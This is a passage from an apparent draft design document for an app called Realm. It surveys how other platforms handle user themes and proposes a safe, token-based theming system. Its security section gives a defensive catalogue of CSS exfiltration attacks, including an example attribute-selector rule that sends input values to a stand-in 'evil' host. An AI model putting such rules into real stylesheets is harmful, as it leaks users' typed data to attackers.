

# Realm — Theming & Customization

> Status: **draft v0.1 (2026-10-02)**. Not scheduled. The product owner wants this "later, at the end"; this doc exists now so the design system and data model don't close the door on it.
> Principle: **theme anything you see, never what tells you whether you're safe.** Themes are data that Realm compiles, not code that Realm runs.
>
> Companion docs: [ARCHITECTURE.md](ARCHITECTURE.md) · [DATA-MODEL.md](DATA-MODEL.md) · [API.md](API.md) · [E2EE.md](E2EE.md) · [ROADMAP.md](ROADMAP.md) · [../DESIGN.md](../DESIGN.md)

---

## 0. Summary

- The owner wants people to be able to theme Realm "to anything", the way BetterDiscord users run ClearVision, Dark Matter, Frosted Glass or an anime wallpaper theme. Discord forbids client mods; Realm will offer this as a built-in, supported feature. It also wants a paid tier and Steam-style profiles (backgrounds, showcases, frames, badges).
- **Recommendation: three layers, built in order, with the third one possibly never shipped as raw CSS.**
  1. **Token themes (free).** A theme is a typed JSON document: colours (OKLCH numbers), surfaces, translucency, a background from Realm's own media pipeline, radius, density, fonts from a catalogue. One compiler turns it into CSS custom properties on web and a style object on native. There's an editor, share links, a gallery, and contrast checks.
  2. **Realm+ (paid).** Richer media and cosmetics: animated and video backgrounds, more fonts, name styles, profile effects, frames and the Shop. Per-Space themes for Space owners, and later a creator marketplace with revenue share.
  3. **Power users.** First, *typed part overrides*: JSON styles on a documented, versioned set of `data-part` hooks, which still map to native. Raw CSS is **not** in v1. If it ever ships, it's local-only (never seen by anyone else), web and desktop only, behind a developer toggle.
- **Profiles follow Steam's model, not MySpace's.** Curated items and structured showcases; no profile HTML or CSS.
- **Un-themeable:** E2EE and encryption labels, safety warnings and interstitials, the report/block controls, account security and payment dialogs, system and staff marks, capture indicators, and the theme reset itself.
- **Accessibility is never paywalled.** High contrast, larger text, reduced motion, reduced transparency, low-saturation and dyslexia-friendly options are free, forever.
- **What to do now** (during the redesign): stable semantic token names, no literal colours in app components, translucency and fonts as tokens, `data-part` hooks on major regions, a separate `--r-sys-*` token set for trust UI, and contrast utilities moved to a shared package so the API can run the same checks. See §4.13.

---

## 1. Goals and non-goals

**Goals**

1. Let anyone restyle the app shell (colours, surfaces, background picture or video, transparency, blur, fonts, corners, density) without installing anything, and share the result with a link.
2. One theme works on web, desktop and mobile. A theme made on the web looks right in the Expo app.
3. A shared theme can't steal data, track people, fake security UI, or make the app unusable.
4. Every theme anyone else sees (gallery themes, Space themes, profiles) passes WCAG 2.2 AA contrast.
5. No theme can push the app over its performance budget on the reference machine (an integrated GPU, see the performance notes in the project memory).
6. A sustainable business: cosmetics people want to buy, without making the free product feel crippled or putting accessibility behind a paywall.

**Non-goals**

- JavaScript plugins. BetterDiscord-style plugins are code execution inside a session that holds E2EE keys. Never.
- Theming the public landing page and download portal. It's the brand's spectacle; only the signed-in app (`src/app/(app)`) is themeable.
- MySpace-style profile HTML/CSS, or per-post styling (Cohost's "CSS crimes"). Fun, but it means running strangers' CSS in your session; see §3.
- Pixel-perfect parity between web and native for power-user overrides (Layer 3). Tokens are portable; overrides only partly.

---

## 2. Prior art

Dates are when the thing launched or the source was published. Sources are linked inline and listed again in §9.

### 2.1 BetterDiscord themes

BetterDiscord (BD) was created by Jiiks in **August 2015** and is the oldest Discord client mod still alive ([Discord Client Modding Wiki](https://wiki.vencord.dev/article/BetterDiscord)). It injects into Discord's desktop app; themes are CSS, plugins are JavaScript.

**File format.** A theme is one file named `*.theme.css`, which "must be in vanilla CSS and be contained in a single file" ([BD docs: Theme Structure](https://docs.betterdiscord.app/themes/introduction/structure)). It starts with a JSDoc-style META block. `@name`, `@author`, `@description` and `@version` are required; `@invite`, `@authorId`, `@authorLink`, `@donate`, `@patreon`, `@website` and `@source` are optional. Without the header, BD won't load the file.

**How a theme targets Discord.** Two hooks, neither of which Discord promises to keep:

- **Discord's own CSS custom properties.** Discord defines colour ramps (`--brand-500`, `--primary-600`, …) and semantic variables reassigned per mode under `.theme-dark` / `.theme-light`, e.g. `--background-primary` → `var(--primary-600)` in dark ([BD docs: CSS Variables](https://docs.betterdiscord.app/discord/variables)). BD's tutorial overrides `--background-tertiary` at `:root` to recolour many components at once ([BD docs: Creating A Theme](https://docs.betterdiscord.app/themes/tutorials/creating)). Variable overrides are the most robust part of any theme.
- **Discord's generated class names.** Everything else is found in DevTools and targeted by class: the tutorial's examples are `.guilds-2JjMmN`, `.listItem-3SmSlK`, `.wrapper-2PSQCG` (same source). These are build-generated and change without notice. BD once added "normalized" classes (`.da-*`) to paper over the churn; they were later deprecated because Discord also renamed the readable part, and generic names like `.da-container` matched dozens of elements ([dracula/betterdiscord#6](https://github.com/dracula/betterdiscord/issues/6)). Theme authors now run "class update" tools against community-maintained rename lists after each Discord change ([Metro420yt/class-update](https://github.com/Metro420yt/class-update); breakage reports like [rose-pine/discord#54](https://github.com/rose-pine/discord/issues/54)). Discord's **March 25, 2025 visual refresh** renamed variables (BD's reference now lists names like `--background-base-lowest`) and ClearVision 7 advertises support for both "visual refresh and legacy chat input" ([BD theme page](https://betterdiscord.app/themes/ClearVision)). Lesson: **if you don't publish a stable surface, people theme your internals, and every release breaks them.**

**Remote imports.** Popular themes ship a tiny local file whose body is an `@import` of the real stylesheet hosted elsewhere, so the theme updates itself. ClearVision v6's local file is a META block, `@import url(https://clearvision.github.io/ClearVision-v6/main.css);`, and a `:root` block of user-editable variables ([ClearVision_v6.theme.css](https://github.com/ClearVision/ClearVision-v6/blob/master/ClearVision_v6.theme.css)). That's convenient, and it means the code a user reviewed isn't the code they run tomorrow. BD's publishing guidelines say to import only from "trusted services (GitHub, GitLab, Google Fonts, etc...)", forbid collecting user data without opt-in consent, forbid explicit content, and ask themes to "maintain performance on modern hardware" by limiting intensive animations, filters and effects ([BD docs: Guidelines](https://docs.betterdiscord.app/themes/publishing/guidelines)).

**ClearVision's variable-based customization** is the model most users actually experience: no selectors, just values. v6 exposes `--main-color`, `--hover-color`, `--success-color`, `--danger-color`, status colours (`--online-color`, `--idle-color`, `--dnd-color`, …), `--main-font`, `--code-font`, `--text-normal`, `--text-muted`, panel widths, and a family of background variables: `--background-image`, `--background-position`, `--background-size`, `--background-attachment`, `--background-brightness`, `--background-contrast`, `--background-saturation`, `--background-blur`, `--background-overlay`, `--background-shading`, plus the same set for the popout and modal backdrops. **Frosted Glass** is similar: `--background-image`, `--background-image-blur`, `--background-image-size`, `--background-image-position`, popout/modal images and blurs, and per-region brightness ([community editor for Frosted Glass](https://bdeditor.dev/theme/frostedglass)). The community editor at bdeditor.dev wraps these variables in sliders and colour pickers (window padding, rounding, gradient direction, tint, fonts) and outputs a file. **Realm's Layer 1 is essentially this list, made official, typed and checked.**

**Store and scale.** betterdiscord.app lists themes as cards with tags (`transparent`, `customizable`, `dark`, `anime`, `flat`), download counts and likes. On 2026-10-02 the top themes were ClearVision (2.8M downloads; v7.0.1, updated 2025-12-11), Dark Matter (2.2M, "a cold, dark & frosty theme"), NotAnotherAnimeTheme (1.6M), Discord+ (1.5M, Material-inspired) and GGO Kirito (1.2M, a *Sword Art Online* wallpaper theme) ([betterdiscord.app/themes](https://betterdiscord.app/themes)). Submissions require connecting a Discord account and pass a manual review. Note how many top themes are built on someone else's copyrighted art: fine for a free mod, a problem for a marketplace (§4.12).

**Snippet culture.** Beyond full themes there are thousands of small CSS "snippets" (hide a button, round the avatars, move the member list) shared as GitHub repos with import links ([MiniDiscordThemes/Snippets](https://github.com/MiniDiscordThemes/Snippets), [yiruzu/vencord-snippets](https://github.com/yiruzu/vencord-snippets)). This is the demand signal for Layer 3: people want small structural tweaks, not just colours.

### 2.2 Vencord: QuickCSS and online themes

Vencord (started August 2022) is the most active alternative mod ([wiki](https://wiki.vencord.dev/article/Vencord)). It has three ways in: a local themes folder, **Online Themes** (paste the URL of a hosted `.css` file), and **QuickCSS**, a live editor where people paste rules or `@import url(...)` lines (instructions in [yiruzu/vencord-snippets](https://github.com/yiruzu/vencord-snippets)). Vencord's FAQ blames "poorly written CSS" for a lot of reported lag and suggests disabling themes and QuickCSS first when diagnosing performance (as quoted in search results; the page refused automated fetches). Lesson: **a live "paste CSS here" box is the feature power users love most, and the first thing support has to switch off.**

### 2.3 Discord's stance on client mods

Discord's Terms of Service (effective **2025-09-29**) say users may not "copy, modify, create derivative works based upon … any of our software", and list "using any unauthorized software designed to modify the services" as prohibited ([discord.com/terms](https://discord.com/terms)). Discord has said publicly since at least 2019 that "BetterDiscord and other client modifications are not allowed" and risk account disablement ([Discord on X, 2019](https://x.com/discord/status/1167708607280046080)), though enforcement against cosmetic use has been rare. Their reasons are real: mods break with every release, plugins run arbitrary code, and support can't tell a Discord bug from a mod bug. Realm's answer is to make the cosmetic half legitimate and keep the code-execution half impossible.

### 2.4 Discord's official customization

Discord has spent three years turning mod-style customization into paid features:

| When | What | Notes |
|---|---|---|
| 2022 (Aug, rollout) | **Profile themes** (Nitro) | Two colours, PRIMARY and ACCENT, form a gradient behind the profile card ([overview](https://medium.com/netcord/custom-profile-themes-are-coming-to-discord-711340627d19)). |
| 2022-07-07 | **Accessibility updates** | Role colours shown as a dot instead of colouring names (for unreadable user colours), saturation slider (optionally including user content), reduced motion, Windows High Contrast support ([Discord blog](https://discord.com/blog/improving-app-accessibility-a11y-updates)). All free. |
| 2023-03 | **Nitro app themes** | Preset colour and gradient themes ("Chroma Glow", "Citrus Sherbert", …), desktop first ([Android Headlines, 2023-03](https://www.androidheadlines.com/2023/03/discord-desktop-app-gets-colorful-themes.html)). Discord's page now lists 28 Nitro themes and syncs them across devices, with a "Sync Across Clients" toggle ([Discord blog, updated 2026-02-19](https://discord.com/blog/bring-your-vibe-to-discord-with-new-themes-in-nitro)). |
| 2023-10 → 2023-11-28 | **The Shop** | Avatar decorations (overlays around the avatar) and profile effects (animations over the profile card). Nitro early access, then open to everyone on desktop/web on 2023-11-28; "When you purchase something from the Shop, it's yours to keep"; Nitro gets member pricing ([Discord blog](https://discord.com/blog/complete-your-look-in-the-shop-now-open-to-all)). Prices ran $5.99–$12.99 per item, with licensed sets at the top ([How-To Geek, 2024-07-31](https://www.howtogeek.com/discord-profile-customization-shop-expensive/); [TechCrunch, 2023-11-29](https://techcrunch.com/2023/11/29/discord-shop-avatars-profile-decorations/)). |
| 2025-03-25 | **Visual refresh** | Light, Ash, Dark and Onyx themes free for everyone, plus UI density options ([Engadget](https://www.engadget.com/gaming/pc/discords-redesigned-pc-app-has-multiple-dark-modes-a-new-overlay-and-more-160019822.html)). Moving darker themes out of Nitro was a concession to what mods had offered for free. |
| 2025-04-22 | **Nameplates** | Animated art behind your name in member lists and DM hovers; bought on desktop, visible everywhere; Nitro discount ([Discord blog](https://discord.com/blog/nameplates-land-in-the-shop)). |
| 2025-05 → 2025-07 | **Orbs** | A currency earned by completing sponsored "Quests" (watching ads, trying games), spent on Shop items and Nitro credit; no cash value ([Engadget, 2025-05-28](https://www.engadget.com/gaming/discord-launches-a-virtual-currency-162136575.html)). |
| 2025-06-19 | **Boost perks: Enhanced Role Styles, Server Tags** | Gradient or holographic role colours unlocked per server by 3 boosts ([Discord support](https://support.discord.com/hc/en-us/articles/31444213087255-Enhanced-Role-Styles)). Community-level cosmetics paid for by members. |
| 2025-09-04 | **Custom themes** (Nitro) | "Pick up to 5 colors, any gradients" on a dark or light base; made on desktop/web, applied on mobile ([Discord on X](https://x.com/discord/status/1963695484587196735); [AlternativeTo, 2025-09-05](https://alternativeto.net/news/2025/9/discord-introduces-custom-theme-support)). Discord's support material describes sharing and previewing custom themes on desktop and web (seen only in search summaries; the page blocks automated reads). |
| 2025-10 | **Display Name Styles** (Nitro) | Fonts plus effects (Solid, Gradient, Neon, Toon, Pop, Gummy, Prism) and colour combos for your name ([Discord on X](https://x.com/discord/status/1983224573752397900)). |

**API shape worth copying.** Discord's public User object carries cosmetics as references, not styles: `avatar_decoration_data { asset, sku_id }` and `collectibles.nameplate { sku_id, asset, label, palette }`, where `palette` is one of a fixed list (`crimson`, `berry`, `sky`, `teal`, `forest`, `bubble_gum`, `violet`, `cobalt`, `clover`, `lemon`, `white`) ([Discord developer docs: User](https://docs.discord.com/developers/resources/user)). Clients render known assets in known ways. Nothing in the payload is CSS.

**What Discord still doesn't offer** (and mods do): a background picture or video behind the whole app, translucent or blurred panels, font changes for the app, layout tweaks, and sharing themes freely without a subscription. That gap is Realm's opening.

### 2.5 Steam profiles and the Points Shop

The **Points Shop** opened on **2020-06-25** with the Summer Sale. Users earn 100 points per dollar spent on Steam; items can't be traded or sold ([SlashGear, 2020-06-25](https://www.slashgear.com/steam-summer-sale-2020-is-here-with-a-new-points-shop-in-tow-25626375/)). At launch it sold avatar frames, mini-profile backgrounds, animated avatars, animated stickers and chat effects; later, whole "game profiles" (a bundle of theme, background, mini-profile, avatar and frame).

How the parts fit together:

- **Free:** name, avatar, summary text, custom URL, and six profile colour themes (Default, Summer, Midnight, Steel, Cosmic, Dark Mode) ([Steam guide](https://steamcommunity.com/sharedfiles/filedetails/?id=2993362577)).
- **Points:** animated avatars (3,000 points), avatar frames (2,000), profile and mini-profile backgrounds (up to 2,000), extra profile themes (5,000–10,000) ([community price summary](https://steamcommunity.com/discussions/forum/12/4845399912177329580/)). Animated backgrounds are WebM videos. The **mini-profile** is the hover card shown in friends lists and chat.
- **Levels:** showcases (featured games, screenshots, artwork, badges, reviews, Workshop items, custom text…) unlock at one per 10 levels; the level badge changes colour every 10 levels and shape every 100 ([Steam level guide](https://steamlevelforge.com/en/blog/steam-profile-customization)). Levels come from crafting badges out of trading cards, which are bought and sold on Valve's market. **Expression is tied to spending**, indirectly.
- **Backgrounds are never uploaded.** Every profile background is an item (from a game's card set or the shop). Steam doesn't have to moderate a billion arbitrary wallpapers, only showcases like artwork.

Creators of Workshop items for Valve's games get **25%** of direct item sales ([Game Developer](https://www.gamedeveloper.com/business/steam-workshop-creators-can-now-share-revenues-with-the-community)).

### 2.6 Tumblr custom themes

Tumblr has let blogs use hand-written HTML themes since its early years: template **variables** (`{Title}`) and **blocks** (`{block:Posts}`), plus `<meta>` tags that become options in the Customize panel: `<meta name="color:Background" content="#eee"/>` referenced as `{color:Background}`, and likewise `font:`, `image:`, `if:` (booleans), `text:` and `select:` ([Tumblr: Creating a custom HTML theme](https://www.tumblr.com/docs/en/custom_themes)). That meta-tag system is a token model bolted onto full HTML.

Two containment decisions: custom themes apply only to the blog's own web view, never to the dashboard or the apps (mobile uses Tumblr's standard theme), and since **May 2022** JavaScript is blocked on custom pages unless Support approves it ([glenthemes, 2022](https://www.tumblr.com/glenthemes/683796810867900416/tumblr-javascript)). The part of Tumblr where you read other people's content isn't themeable by those people.

### 2.7 MySpace, and what went wrong

MySpace (mid-2000s) never designed customization; users discovered they could paste `<style>` into the **About Me** box. Mike Davidson's 2006 write-up shows the result: no IDs or classes to hook onto, so selectors like `table table table table td`; `#` stripped (no hex colours); CSS in the middle of the body, so every profile flashed unstyled first ([Mike Industries, 2006-04-18](https://mikeindustries.com/blog/archive/2006/04/hacking-myspace-layouts)). The consequences:

- **Security.** On 2005-10-04 the **Samy worm** used CSS: MySpace allowed `style`, and IE executed `background:url('javascript:…')`. Keyword filters were dodged with `java\nscript` and string concatenation ([Samy's technical explanation](https://sa.my/myspace/tech.html)). In **December 2006** a phishing worm used profile CSS plus a QuickTime movie to **replace MySpace's navigation menu with a fake one** leading to a credential-harvesting login page; an informal scan found about a third of 150 profiles infected ([eWeek](https://www.eweek.com/security/phishers-attack-myspace-with-quicktime-exploit-worm/); [Virus Bulletin, 2006-12](https://www.virusbulletin.com/blog/2006/12/myspace-hit-worm-adware-and-phishing)). UI spoofing with CSS is not hypothetical.
- **Performance.** Malformed CSS and stacks of autoplaying media froze browsers ([Wikipedia: Criticism of Myspace](https://en.wikipedia.org/wiki/Criticism_of_Myspace)).
- **Accessibility and legibility.** Text on busy tiled wallpaper, glitter, autoplaying music; no way for a visitor to opt out. The visitor paid for the owner's taste.
- **Maintainability.** MySpace could never change its markup without breaking millions of profiles.

**SpaceHey**, a modern MySpace revival, allows profile HTML/CSS but strips JavaScript and iframes, and since **2021-11-26** routes all external media through its own servers so third parties see SpaceHey's IP, not visitors' ([SpaceHey blog](https://blog.spacehey.com/entry?id=144336)). That's the IP-logging problem in §3.2, solved after the fact.

### 2.8 Reddit's subreddit CSS

Old Reddit let moderators write a stylesheet per subreddit. It was sanitized by Reddit's `cssfilter`, which refused anything that would make the browser request a third-party host and replaced `%%name%%` tokens with images uploaded to Reddit ([reddit-cssfilter on PyPI](https://pypi.org/project/reddit-cssfilter)). Subreddits like r/ooer were built on it.

In **April 2017**, CEO Steve Huffman told moderators on r/modnews that the redesign would drop custom CSS: it "doesn't work on mobile" (about half of traffic) and is "difficult to learn; it's error-prone; and it's time consuming". The replacement was structured styling: header images, colours, flair colours ([Player.One, 2017-04-23](https://www.player.one/reddit-removes-custom-community-styles-moderators-are-pissed-594356)). In a moderator poll, 83.9% of 251 responses called it unacceptable ([The Next Web, 2017-04-25](https://thenextweb.com/news/reddit-changing-redditors-arent-happy)). The redesign launched in April 2018; old.reddit kept CSS. Lessons: (1) raw CSS doesn't survive the move to native apps; (2) taking expression away from communities is resented for years; (3) structured styling is the only thing that works across platforms, so **start structured and never have to take CSS away.**

### 2.9 Obsidian themes and snippets

Obsidian themes are a `manifest.json` plus `theme.css`. Obsidian exposes "more than 400 different CSS variables" and tells authors to override them under `body`, `.theme-dark` and `.theme-light` rather than writing complex selectors, because class names "may change in future Obsidian versions" ([Obsidian docs: Build a theme](https://docs.obsidian.md/Themes/App+themes/Build+a+theme)). Community themes "must not load remote assets, such as fonts and images", which keeps them private and offline, and should avoid `!important` so users can still override them with snippets ([Obsidian theme guidelines](https://docs.obsidian.md/Themes/App+themes/Theme+guidelines)). **CSS snippets** are small `.css` files in the vault's `snippets` folder, toggled one by one in Appearance ([Obsidian help: CSS snippets](https://obsidian.md/help/snippets)). Obsidian is the clearest example of "variables are the API, snippets are the escape hatch, nothing loads from the network".

### 2.10 VS Code's theme JSON

A VS Code colour theme is JSON: `colors` (several hundred fixed workbench colour IDs), `tokenColors` (TextMate scopes) and `semanticTokenColors`. It declares a base, `uiTheme: vs | vs-dark | hc-black | hc-light` (high contrast is a first-class theme type), and users override any theme with `workbench.colorCustomizations` ([VS Code: Color Theme guide](https://code.visualstudio.com/api/extension-guides/color-theme); [Theme Color reference](https://code.visualstudio.com/api/references/theme-color)). There is no CSS. The community extension that injects CSS patches VS Code's own files, and VS Code then warns that the installation "appears to be corrupt" ([Custom CSS and JS Loader](https://marketplace.visualstudio.com/items?itemName=be5invis.vscode-custom-css)). Thousands of themes exist anyway, and they survive VS Code releases because the colour IDs are a maintained API with deprecations.

### 2.11 Telegram themes

- **2017-02-20, Android:** an in-app theme editor ("Choose an element", "Pick a color") and shareable theme files ([Telegram blog](https://telegram.org/blog/android-themes)). Android themes (`.attheme`) are a list of named colour keys with an optional embedded wallpaper; desktop and iOS had their own formats, which the community bridged with converters ([universal-themes](https://github.com/deyoungjohn/universal-themes); [.attheme editor](https://github.com/SnejUgal/attheme-editor)).
- **2019-09-05, v5.11, cloud themes:** a theme is built from a base plus an accent colour and background, stored in the cloud, and shared as a `t.me/addtheme/<shortname>` link; one link can serve several platforms, and "your theme gets updated automatically for all its users whenever you save and apply changes" ([Telegram: Creating Custom Cloud Themes](https://core.telegram.org/themes); [XDA, 2019-09-05](https://www.xda-developers.com/telegram-5-11-scheduled-messages-custom-cloud-themes/)).
- **2021-09-19, per-chat themes:** 8 themes for individual private chats, each with gradient bubbles, an animated background and **a day and a night version** that follow the app's night mode; your chat partner sees the theme too ([Telegram blog](https://telegram.org/blog/chat-themes-interactive-emoji-read-receipts?setln=en)).

Lessons: per-platform formats fragmented the ecosystem until Telegram moved to a platform-neutral "base + accent + wallpaper" model; links that install themes are the growth loop; live auto-update is great for authors and a review problem for platforms; shared-space themes need day and night variants.

### 2.12 Spotify (Spicetify)

Spotify has no user theming. **Spicetify** patches the desktop client; a theme is `color.ini` (named colour schemes turned into CSS variables), `user.css` (rules to "manipulate, hide, and move UI elements") and optionally `theme.js` ([Spicetify docs: Themes](https://spicetify.app/docs/development/themes)). Spotify's terms prohibit modifying the client ([Spotify Terms of Use](https://spotify.com/au/legal/end-user-agreement)). The `color.ini` + `user.css` split is the same two-layer shape this doc recommends: portable tokens first, structural CSS as an optional extra.

### 2.13 Twitch

Twitch channels choose a brand **accent colour** and banner ([Twitch help](https://link.twitch.tv/ChannelPageSetup)). Chat name colours are user-picked (any colour for Turbo/Prime), and viewers can turn on **Readable Colors**, which lightens dark name colours in dark mode ([explainer](https://wellcontent.io/improve-accessibility-user-experience-twitch)). That is the right pattern for user-chosen colours shown to other people: the viewer's client, not the chooser, guarantees legibility. **Channel Points** (2019-12-16) are a per-channel loyalty currency earned by watching, spent on streamer-defined rewards ([Twitch blog](https://blog.twitch.tv/en/2019/12/16/channel-points-an-easy-way-to-engage-with-your-audience/)).

### 2.14 Mastodon and Misskey

- **Mastodon** lets *server admins* add custom CSS. Fedi.tips warns it "prevents your server's users setting their own theme" and "may cause accessibility issues, as some users rely on being able to choose either light or dark or high contrast themes" ([fedi.tips](https://fedi.tips/customising-your-mastodon-servers-appearance/)). Community styling must not override personal accessibility choices.
- **Misskey** has both layers. *Themes* are JSON5 documents with `id`, `name`, `author`, `base` (`light`/`dark`) and `props` (`accent`, `bg`, `fg`, `panel`, …); missing props inherit from the base; values can reference other props (`@accent`) and apply functions (`:darken<10<#86b300`, `lighten`, `alpha`, `hue`, `saturate`); since v2023.11.0 websites can offer one-click theme install ([Misskey Hub: Theme](https://misskey-hub.net/en/docs/for-users/features/theme/)). Separately, each user can paste *Custom CSS* in settings, with a warning that it "must be done by someone with knowledge". And in **May 2025** Misskey fixed a high-severity (CVSS 7.2) bug where CSS injected through a link preview's OpenGraph image could overlay fake UI across the whole viewport ([GHSA-3p2w-xmv5-jm95](https://github.com/misskey-dev/misskey/security/advisories/GHSA-3p2w-xmv5-jm95)). A token theme format with inheritance is proven in a social app; CSS reaching other people's screens is still a live risk in 2025.

### 2.15 Others, briefly

- **Slack** sidebar themes are a comma-separated string of hex colours; pasting one into a message renders swatches and a button to switch to it ([How-To Geek](https://www.howtogeek.com/272373/how-to-customize-slacks-appearance-with-themes/)). Theme-as-message is a lovely sharing loop; it must preview, never auto-apply.
- **Firefox** has two systems: *static themes* (a manifest of named colours and images, reviewed on addons.mozilla.org) and **`userChrome.css`** for power users, which since Firefox 69 loads only if the user flips `toolkit.legacyUserProfileCustomizations.stylesheets` ([Bugzilla 1541233](https://bugzilla.mozilla.org/show_bug.cgi?id=1541233); [MDN: theme manifest key](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/manifest.json/theme)). Shareable tokens; local-only, opt-in, unsupported CSS.
- **itch.io** grants the custom CSS editor by manual approval "because it makes it harder for us to upgrade game pages", documents a short list of stable selectors ("use any other CSS classes at your own risk"), strips user classes not prefixed `custom-`, and suspends anyone "attempting to trick visitors into performing actions they didn't intend" ([itch.io CSS guide](https://itch.io/docs/creators/css-guide)).
- **Cohost** (June 2022 – September 2024) allowed inline `style` attributes in posts but not `<style>` blocks or keyframes; users built games out of `<details>` and `calc()` ("CSS crimes") ([CSS-Tricks, 2025-04-24](https://css-tricks.com/the-lost-css-tricks-of-cohost-org/)). Expressive, and a constant sanitizer arms race.
- **LINE Creators Market** (April 2016) lets anyone sell app themes: image sets (menu icons, backgrounds, passcode screens) over preset colour skins, reviewed before sale, priced ¥360/¥480/¥600, creator gets 35% of gross (50% after store fees); themes with "poor visibility" are rejected ([LINE press release](https://www.linecorp.com/en/pr/news/en/2016/1244); [theme guidelines](https://creator.line.me/en/guideline/theme/)). The closest precedent for a reviewed theme marketplace with revenue share.
- **Material Design 3** derives a whole scheme from one seed colour and guarantees contrast by construction: in its HCT space, a tone difference of 40 guarantees ≥3:1 and 50 guarantees ≥4.5:1 ([M3: Science of color](https://m3.material.io/blog/science-of-color-design/); [material-color-utilities](https://github.com/material-foundation/material-color-utilities)). This is how a "pick five colours" editor can stay accessible.
- **Design Tokens Community Group** format reached its first stable version (2025.10) on 2025-10-28, with theming/modes and OKLCH support ([W3C DTCG](https://www.w3.org/community/design-tokens/2025/10/28/design-tokens-specification-reaches-first-stable-version/)). Worth aligning our token export with it for Figma/tooling interop; not as the user-facing theme format (§4.2).

### 2.16 What the prior art says

| Pattern | Who | Works across native? | Breaks on releases? | Safe to share? |
|---|---|---|---|---|
| Raw CSS on private internals | BetterDiscord, Vencord, Spicetify, VS Code CSS hack | No | Constantly | No (remote imports, tracking) |
| Raw CSS on documented hooks | itch.io, Obsidian snippets, old Reddit (sanitized) | No | Rarely | Only with heavy sanitizing and review |
| Raw CSS shown to *other people* | MySpace, Tumblr blogs, SpaceHey, Mastodon admin CSS | No | Yes | Historically the source of worms, phishing and unreadable pages |
| Typed tokens + images | VS Code, Telegram cloud themes, Misskey themes, Discord custom themes, Slack, LINE, Firefox static themes | **Yes** | No | **Yes** |
| Curated cosmetic items | Steam Points Shop, Discord Shop | Yes | No | Yes (platform-made art) |

Every platform that has native apps and lets users share themes ended up on typed tokens. Every platform that let strangers' CSS reach viewers had incidents. The demand for "theme it to anything" is mostly covered by: colours, a background picture or video, translucency and blur, fonts, corner radius, and a few structural tweaks.

---

## 3. Security, privacy, accessibility and performance

### 3.1 The axis that matters: who sees it

| Scope | Example | Victim if malicious | Consequence |
|---|---|---|---|
| **Self, self-made** | You theme your own app | Only you | Low risk. Worst case you make it ugly or unreadable for yourself; needs a reliable reset. |
| **Self, installed** | You install a gallery theme or open a share link | You, harmed by the author | Medium. The author can't run code, but could try tracking, spoofing or DoS through the theme. |
| **Others, by authority** | A Space owner sets a Space theme; a profile owner sets a profile background | Every member or visitor | High. Must be token-only, contrast-checked, moderated, and switchable off by the viewer. |

Raw CSS is only ever acceptable in the first row, and arguably the second.

### 3.2 Attack catalogue for user-supplied styles

**Data exfiltration with CSS.** CSS can't read the page, but it can make the browser fetch a URL when a selector matches, and the URL encodes what matched.

- *Attribute selectors.* `input[value^="a"] { background: url(https://evil/a) }`, repeated per character, leaks attribute values. The 2018 "CSS keylogger" showed it against frameworks that mirror typed text into the `value` attribute (React controlled inputs) ([Bram.us, 2018-02-21](https://www.bram.us/2018/02/21/css-keylogger-and-why-you-shouldnt-worry-about-it/); [CSS-Tricks](https://css-tricks.com/css-keylogger/)).
- *Sequential `@import` chaining.* The server holds each imported stylesheet open and generates the next one from what the previous one leaked, so a token can be extracted character by character in one page view ([d0nut, 2019-04-10](https://github.com/d0nutptr/sic)).
- *`:has()` and blind exfiltration.* With `:has()`, CSS can reach hidden inputs and arbitrary elements without knowing the DOM ([PortSwigger, 2023-12-05](https://portswigger.net/research/blind-css-exfiltration)).
- *Fonts.* `@font-face` with `unicode-range` downloads a font per character present, revealing which characters are on the page ([Masato Kinugawa, 2015](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html)); ligature fonts plus forced scrollbars measure text without any network request per character ([Heiderich et al., "Scriptless Attacks", ACM CCS 2012](https://www.nds.rub.de/media/emma/veroeffentlichungen/2012/08/16/scriptlessAttacks-ccs2012.pdf)).
- *No-network oracles.* Even when CSP blocks every outbound request, researchers leak data through connection-pool exhaustion, conditional tab crashes and frame counting observed from another tab ([Jorian Woltjer's CSS injection notes](https://book.jorianwoltjer.com/web/client-side/css-injection)). PortSwigger's August 2026 email-client research used font-height oracles and animations to extract tokens "despite CSP restrictions", bypassed image proxies, and built fake login screens and keyloggers from CSS alone ([PortSwigger, 2026-08-06](https://portswigger.net/research/css-the-bomb-inside-your-inbox)); the same attack surface is the subject of *Styled to Steal* at ACM CCS 2025 ([ACM DL](https://dl.acm.org/doi/abs/10.1145/3719027.3765189)).
- *The surface keeps growing.* `if()` shipped in Chrome 137 (May 2025) and `attr()` now returns typed values, which lets a single `style` attribute branch on data ([Chrome blog](https://developer.chrome.com/blog/if-article)). A CSS sanitizer is a moving target that has to be revisited every browser release.

